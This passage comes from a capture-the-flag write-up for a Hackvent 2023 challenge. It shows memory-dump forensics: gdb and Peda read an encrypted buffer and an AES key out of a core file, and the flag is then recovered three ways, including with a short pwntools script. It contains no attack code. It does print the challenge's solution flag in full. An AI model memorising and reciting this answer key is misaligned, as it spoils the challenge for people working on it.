Unsurprisingly it crashes with a `SIGSEGV`. Because I’m running `gdb` with
[Peda](https://github.com/longld/peda), it also prints the registers and
stack:


`$rbx` has the length of the encrypted flag. `$r13` has the pointer to the
buffer with the encrypted flag. And `$r15` has the pointer to the buffer with
the key.

#### Read dump

Now I’m ready to open the dump. I’ll exit `gdb` and reopen it with `dump`:

    
    
    oxdf@hacky$ gdb -q ./flagsave dump
    Reading symbols from ./flagsave...
    (No debugging symbols found in ./flagsave)
    
    warning: Can't open file /nix/store/nnzp88khq8ygjjqdad8mjk3jkm94044p-flagsave-x86_64-unknown-linux-musl/bin/flagsave during file-backed mapping note processing
    
    warning: exec file is newer than core file.
    [New LWP 828]
    
    warning: Section `.reg-xstate/828' in core file too small.
    Core was generated by `flagsave ./flag.enc'.
    Program terminated with signal SIGSEGV, Segmentation fault.
    
    warning: Section `.reg-xstate/828' in core file too small.
    #0  0x000000000040113a in main ()
    gdb-peda$
    

`p [register]` will print the register value:

    
    
    gdb-peda$ p $rbx
    $1 = 0x2b
    

So the encrypted content is 0x2b = 43 bytes long.

I’ll show the memory with `x/[n]bx`, where `[n]` is the number of bytes to
show:

    
    
    gdb-peda$ x/43bx $r13
    0x7fc80c16f040: 0xaf    0x71    0x38    0xad    0x96    0x08    0xc9    0x14
    0x7fc80c16f048: 0xbe    0xbd    0xfe    0x19    0xbe    0x9f    0x28    0x25
    0x7fc80c16f050: 0xbd    0x98    0xa7    0x0f    0xfd    0x3a    0x45    0x58
    0x7fc80c16f058: 0x18    0x8f    0x8d    0x8e    0xf8    0xbb    0x15    0x66
    0x7fc80c16f060: 0x73    0x5f    0x0b    0x61    0x81    0x35    0xbe    0xb5
    0x7fc80c16f068: 0x0d    0x80    0xc9
    

Alternatively, with Peda I can use `hexdump`:

    
    
    gdb-peda$ hexdump $r13 43
    0x00007fc80c16f040 : af 71 38 ad 96 08 c9 14 be bd fe 19 be 9f 28 25   .q8...........(%
    0x00007fc80c16f050 : bd 98 a7 0f fd 3a 45 58 18 8f 8d 8e f8 bb 15 66   .....:EX.......f
    0x00007fc80c16f060 : 73 5f 0b 61 81 35 be b5 0d 80 c9                  s_.a.5.....
    

That’s the encrypted payload that was trying to be decrypted. I can do the
same thing to get the flag:

    
    
    gdb-peda$ x/32bx $r15
    0x7ffeef3dd670: 0x9b    0xaf    0x7d    0x5c    0xac    0x41    0x41    0xc8
    0x7ffeef3dd678: 0xcb    0x8c    0xfa    0x3f    0xd2    0x70    0xfc    0x4b
    0x7ffeef3dd680: 0xee    0xa0    0xcd    0x54    0x0a    0x54    0x25    0x0a
    0x7ffeef3dd688: 0xd8    0x8f    0x8f    0x94    0xcb    0x40    0x0f    0x91
    

### Decrypt

#### With flagsave

The easiest way to get the flag now that I have the key and encrypted text is
to just save those to files and run the program. I’ll grab each buffer and
throw it in `vim`, using `Ctrl-v` to select and delete each line up to the
first byte values, and `:%s/ 0x//g` to get rid of the extra whitespace and
“0x”, saving as `flag.enc.hex`. Then `xxd` will convert to raw bytes:

    
    
    oxdf@hacky$ cat flag.enc.hex 
    af7138ad9608c914
    bebdfe19be9f2825
    bd98a70ffd3a4558
    188f8d8ef8bb1566
    735f0b618135beb5
    0d80c9
    oxdf@hacky$ cat flag.enc.hex | xxd -r -p > flag.enc
    oxdf@hacky$ xxd flag.enc
    00000000: af71 38ad 9608 c914 bebd fe19 be9f 2825  .q8...........(%
    00000010: bd98 a70f fd3a 4558 188f 8d8e f8bb 1566  .....:EX.......f
    00000020: 735f 0b61 8135 beb5 0d80 c9              s_.a.5.....
    

I’ll do the same to get the key:

    
    
    oxdf@hacky$ cat key.hex 
    9baf7d5cac4141c8
    cb8cfa3fd270fc4b
    eea0cd540a54250a
    d88f8f94cb400f91
    oxdf@hacky$ cat key.hex | xxd -r -p > key
    oxdf@hacky$ xxd key
    00000000: 9baf 7d5c ac41 41c8 cb8c fa3f d270 fc4b  ..}\.AA....?.p.K
    00000010: eea0 cd54 0a54 250a d88f 8f94 cb40 0f91  ...T.T%......@..
    

I’ll run `flagsave` (making sure to give it the “d” so it doesn’t crash), and
the flag is in `out`:

    
    
    oxdf@hacky$ ./flagsave flag.enc d
    oxdf@hacky$ cat out 
    HV23{17's_4ll_ri6h7_7h3r3}
    

#### Cyberchef

I have the encrypted bytes and the key, and I know it’s AES CTR mode. I can
drop all of this in CyberChef:


I’ll need to take the first 16 bytes (or 32 hex characters) from the input as
the IV, and the rest is simple.

#### pwntools

I didn’t know before this challenge (shoutout to Fabi_07 in the Hackvent
Discord), but [pwntools](https://docs.pwntools.com/en/stable/) has a
`Coredump` object that can parse and handle it. With that, I’ll write a simple
Python script that solves the entire challenge:

    
    
    from pwn import Corefile, process
    
    core = Corefile('./dump')
    
    # write ciphetext to flag.enc
    enc_text_len = core.registers['rbx']
    enc_text_addr = core.registers['r13']
    enc_text = core.read(enc_text_addr, enc_text_len)
    with open('flag.enc', 'wb') as f:
        f.write(enc_text)
    
    # write key to key
    key_addr = core.registers['r15']
    key = core.read(key_addr, 32)
    with open('key', 'wb') as f:
        f.write(key)
    
    # get flag
    p = process(['./flagsave', 'flag.enc', 'd'])
    p.wait()
    with open('out', 'r') as f:
        print(f.read())
    

Running this returns the flag:

    
    
    oxdf@hacky$ python solve.py 
    [+] Parsing corefile...: Done
    [*] '/media/sf_CTFs/hackvent2023/day14/dump'
        Arch:      amd64-64-little
        RIP:       0x40113a
        RSP:       0x7ffeef3dd660
        Exe:       '/nix/store/nnzp88khq8ygjjqdad8mjk3jkm94044p-flagsave-x86_64-unknown-linux-musl/bin/flagsave' (0x400000)
    [+] Starting local process './flagsave': pid 14484
    [*] Process './flagsave' stopped with exit code 0 (pid 14484)
    HV23{17's_4ll_ri6h7_7h3r3}
    

**Flag:`HV23{17's_4ll_ri6h7_7h3r3}`**

[« easy](/hackvent2023/easy)[hard »](/hackvent2023/hard)

[](/hackvent2023/medium)

